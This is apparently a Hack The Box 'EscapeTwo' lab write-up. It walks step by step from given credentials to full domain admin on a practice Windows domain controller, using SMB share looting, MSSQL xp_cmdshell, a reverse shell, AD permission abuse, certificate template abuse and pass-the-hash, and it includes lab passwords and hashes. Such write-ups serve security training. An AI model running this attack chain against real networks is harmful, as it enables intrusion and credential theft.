 # EscapeTwo Write-up

<img src="https://labs.hackthebox.com/storage/avatars/d5fcf2425893a73cf137284e2de580e1.png" width="200" height="200"> 

MACHINE INFORMATION

As is common in real life Windows pentests, you will start this box with credentials for the following account: `rose`:`KxEPkKe6R8su`

## Recon

### Nmap

`nmap -sC -sV 10.10.11.51`

    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-15 11:23:26Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
    | ms-sql-ntlm-info: 
    |   10.10.11.51:1433: 
    |     Target_Name: SEQUEL
    |     NetBIOS_Domain_Name: SEQUEL
    |     NetBIOS_Computer_Name: DC01
    |     DNS_Domain_Name: sequel.htb
    |     DNS_Computer_Name: DC01.sequel.htb
    |     DNS_Tree_Name: sequel.htb
    |_    Product_Version: 10.0.17763
    |_ssl-date: 2025-01-15T11:25:00+00:00; +1s from scanner time.
    | ms-sql-info: 
    |   10.10.11.51:1433: 
    |     Version: 
    |       name: Microsoft SQL Server 2019 RTM
    |       number: 15.00.2000.00
    |       Product: Microsoft SQL Server 2019
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 1433
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2025-01-15T10:03:32
    |_Not valid after:  2055-01-15T10:03:32
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    |_clock-skew: mean: -2s, deviation: 4s, median: -4s
    | smb2-time: 
    |   date: 2025-01-15T11:24:19
    |_  start_date: N/A

### Netexec

`netexec ldap 10.10.11.51  -u rose -p KxEPkKe6R8su`

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 

Add IP `10.10.11.51` and domain-name `sequel.htb` to `/etc/hosts`. 

    echo "10.10.11.51 sequel.htb" | sudo tee -a /etc/hosts

### Crackmapexec

Try to enumerate SMB.

`crackmapexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su` 

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
    
### SMBClient

    smbclient //10.10.11.51/Users -U SEQUEL.HTB//rose

![image](https://github.com/user-attachments/assets/3983400f-79ed-449e-8cb8-2beafca4bd08)

    smbclient //10.10.11.51/Accounting\ Department -U rose --option='client min protocol=SMB2'

![image](https://github.com/user-attachments/assets/18e726a9-5a6f-40b8-a080-0467fb65bf14)

You need to download it using the `get` command and then `unzip` it.

![image](https://github.com/user-attachments/assets/19ff0d71-5676-474e-bfda-a18196fc8bb0)

![image](https://github.com/user-attachments/assets/fe9480bb-040c-4026-952f-176923644ca6)

![image](https://github.com/user-attachments/assets/63b22e56-8c75-4812-b3e8-8ec28c5beb06)

First name, Last name / Email / Username / Password

`Angela Martin`:`angela@sequel.htb`:`angela`:`0fwz7Q4mSpurIt99`

`Oscar Martinez`:`oscar@sequel.htb`:`oscar`:`86LxLBMgEWaKUnBG`

`Kevin Malone`:`kevin@sequel.htb`:`kevin`:`Md9Wlq1E5bZnVDVo`

`NULL`:`sa@sequel.htb`:`sa`:`MSSQLP@ssw0rd!`

### MSSQLServer

    python3 mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51

![image](https://github.com/user-attachments/assets/161f9fc9-bf3c-47a6-a725-fb7cd2eeb755)

SQL (sa  dbo@master)> `enable_xp_cmdshell`

SQL (sa  dbo@master)> `exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'`                                           

![image](https://github.com/user-attachments/assets/72fdfd63-da7a-4520-a51d-1dacea12a3f4)

SQLSVCPASSWORD="`WqSZAF6CysDQbGb3`"   

### ReverseShell

![image](https://github.com/user-attachments/assets/f4835fe1-7b9b-4287-83d4-9b8724605276)

xp_cmdshell <Your-base64-shell>

![image](https://github.com/user-attachments/assets/a5f40969-99e1-424a-8051-cdf84320c5c4)

### Evil-winrm

`ryan`:`WqSZAF6CysDQbGb3`

    evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3

Get the user flag!

![image](https://github.com/user-attachments/assets/b08d37e8-7216-4579-986f-872b59c418e6)

### Privelege Escalation 

BloodHound

BloodyAD

    bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan

![image](https://github.com/user-attachments/assets/149fa255-e048-4fc5-89d1-a047916f1414)

Dacledit

    dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'

![image](https://github.com/user-attachments/assets/fe9ee738-8ebd-4bb8-9095-c888448e814e)

Certipy-AD

    certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc

![image](https://github.com/user-attachments/assets/4f3b6c1b-1b5a-4b76-bba1-244794e6fed0)

    3b181b914e7a9d5508ea1e20bc2b7fce

Kerberos

    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout 

![image](https://github.com/user-attachments/assets/cb837f4d-23a7-4f7a-87bd-0ed71d11ec1c)

Request to cert

    certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51



Evil-WinRM

We can connect by `-H` flag, because we use hash, not password for connection to host.

    evil-winrm -i 10.10.11.51 -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff

![image](https://github.com/user-attachments/assets/4ac637e0-b016-4317-9121-18e231def811)

Get the root (system) flag!

![image](https://github.com/user-attachments/assets/a9cd8d13-d6a4-44d1-a2e6-4864e4fc7762)

